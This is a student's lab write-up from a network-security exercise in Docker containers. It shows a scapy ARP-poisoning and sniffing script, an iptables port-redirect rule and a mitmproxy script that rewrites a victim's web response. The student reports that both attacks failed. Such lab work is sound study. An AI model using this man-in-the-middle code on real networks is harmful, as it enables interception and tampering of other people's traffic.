

## Task 3

After the initial configuration phase, I used `curl` in Alice's container to query Bob's webpage:


### ARP poisoning with scapy

I modified the Python scrypt as shown here:

```python
from pprint import pprint
from scapy.all import ARP, send, AsyncSniffer, Packet, Raw
from scapy.layers.http import HTTPRequest
import time

# IP and MAC Addresses
ALICE_IP = '172.31.0.2'
ALICE_MAC = '02:42:ac:1f:00:02'
BOB_IP = '172.31.0.3'
BOB_MAC = '02:42:ac:1f:00:03'
MALLORY_IP = '172.31.0.4'
MALLORY_MAC = '02:42:ac:1f:00:04'

def process_packet(pkt: Packet):
    """ Process the packets """
    if pkt.haslayer(HTTPRequest):
        print(f"[HTTP REQUEST] {pkt[HTTPRequest].Host.decode()} {pkt[HTTPRequest].Path.decode()}")
    elif pkt.haslayer(ARP):
        print(f"[ARP] {pkt.summary()}")
    else:
        print(f"[OTHER] {pkt.summary()}")

def clean():
    print("\nStopping ARP poisoning, restoring ARP tables...")
    send(ARP(op=2, pdst=ALICE_IP, psrc=BOB_IP,
        hwdst=ALICE_MAC, hwsrc=BOB_MAC),verbose=False)
    send(ARP(op=2, pdst=BOB_IP, psrc=ALICE_IP,
        hwdst=BOB_MAC, hwsrc=ALICE_MAC),verbose=False)

def main() -> None:
    """ ARP Poisoning and sniffing """
    sniffer = AsyncSniffer(iface='eth0', prn=process_packet,
                         store=False)
    try:
        sniffer.start()
        print('Starting poisoning')

        while True:
            # In Alice: Bob = Mallory
            send(ARP(op=2, pdst=ALICE_IP, psrc=BOB_IP, hwdst=ALICE_MAC, hwsrc=MALLORY_MAC), verbose=False)
           
            # In Bob: Alice = Mallory
            send(ARP(op=2, pdst=BOB_IP, psrc=ALICE_IP, hwdst=BOB_MAC, hwsrc=MALLORY_MAC), verbose=False)

            time.sleep(2)
    except KeyboardInterrupt:
        print('Keyboard interrupt')
        sniffer.stop()
    clean()

if __name__ == '__main__':
    main()
```

In the try, inside the while True, happens the poisoning.

Actually, it didn't work:
here are the tables obtained with `ip neigh show` before and after the running of the scrypt in Mallory's shell.



It's possible to notice that Bob's entry is still shown with its original MAC address. Mallory's entry is present but has not replaced Bob.

I couldn't try to fix it for time reasons.

### Active intercepting with

In the Mallory's container, I ran the suggested line

```console
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
```

I modified bob_mitm.py as follows:

```python
from mitmproxy import http

def response(flow: http.HTTPFlow) -> None:
    """ Modify Bob's webpage response for Alice """
    if flow.request.pretty_url.startswith("http://172.31.0.3"):  # Bob's IP
        flow.response.text = "This is not Bob!"

```

and ran mitmproxy:

```console
mitmproxy --listen-host 0.0.0.0 --listen-port 8080 -s mitm_script.py
```

At this point I ran `curl http://172.31.0.3` in Alice's shell, but still got the original message from Bob, instead of `This is not Bob!`

Again, after some debugging - with the help of LLMs - I couldn't obtain the desired result.
